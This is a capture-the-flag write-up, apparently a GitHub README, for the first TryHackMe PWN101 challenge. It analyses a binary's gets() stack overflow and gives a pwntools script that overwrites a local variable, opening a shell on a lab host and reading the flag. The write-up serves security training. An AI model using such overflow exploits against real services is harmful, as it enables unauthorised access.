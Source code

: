 # PWN101
This is a quick writeup for the PWN101 (Binary exploitation challenges) on <a href="https://tryhackme.com/room/pwn101">tryhackme.</a> Go take a look.
<h2 style="color:purple;">Challenge 1 - pwn101</h2>
This should give you a start: 'AAAAAAAAAAA'

Challenge is running on port 9001

**File Check:**<br>

```sh
file pwn101.pwn101
pwn101.pwn101: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=dd42eee3cfdffb116dfdaa750dbe4cc8af68cf43, not stripped
   
 ```
**Discovery:**
<p align="center">

<img src="https://github.com/tareqraihan926/TryHackme-PWN101/blob/main/ss/discovery.png" width="" height="">
</p>

**Analysis:**
```sh
trinity@trinity-HP-Pavilion-Laptop-15-cc0xx:~/Downloads/tryhackme/PWN-101$ checksec pwn101.pwn101
[*] '/home/trinity/Downloads/tryhackme/PWN-101/pwn101.pwn101'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
 ```
 
 I am Using Cutter to analysis & get the structure-
 
 <p align="center">

<img src="https://github.com/tareqraihan926/TryHackme-PWN101/blob/main/ss/structur.png" width="" height="">
</p>

 The win condition is the following : <br>
 ```sh
      0x000008da   cmp dword [var_4h], 0x539
 ┌─<  0x000008e1   jne 0x8f9

 ```
 If the value of the local variable var 4h is no more equal to 0x539
 ```sh
 │     0x00000896   mov dword [var_4h], 0x539
 
```

then a /bin/sh is spawned

The local variable are :
```sh
│     ; var uint32_t var_4h @ rbp-0x4
│     ; var char *str @ rbp-0x40
```
The input data are received in rbp-0x40

```sh
│     0x000008cd   mov rdi, rax                ; char *str         
│     0x000008d0   mov eax, 0
│     0x000008d5   call sym.imp.gets           ; gets(str)
```

and has no control over the message's length. The value is then modified if the message is longer than 60 (0xx60-4).holds the message's linefeed, so 59 characters are sufficient.

**Exploitation:**
```sh
from pwn import *

context.binary = binary = "./pwn101.pwn101"

payload = b"A"*((0x40-0x4)+1)

#p = process()
p = remote("10.10.99.150", 9001)
p.recv()
p.sendline(payload)
p.interactive()
```

Running the Exploit-
```sh
trinity@trinity-HP-Pavilion-Laptop-15-cc0xx:~/Downloads/tryhackme/PWN-101$ python3 exploit.py
[*] '/home/trinity/Downloads/tryhackme/PWN-101/pwn101.pwn101'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 10.10.99.150 on port 9001: Done
[*] Switching to interactive mode

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
Thanks, Here's a small gift for you <3
$ ls
flag.txt
pwn101
pwn101.c
$ 
$ cat flag.txt
THM{7h4t's_4n_3zy_oveRflowwwww}
```
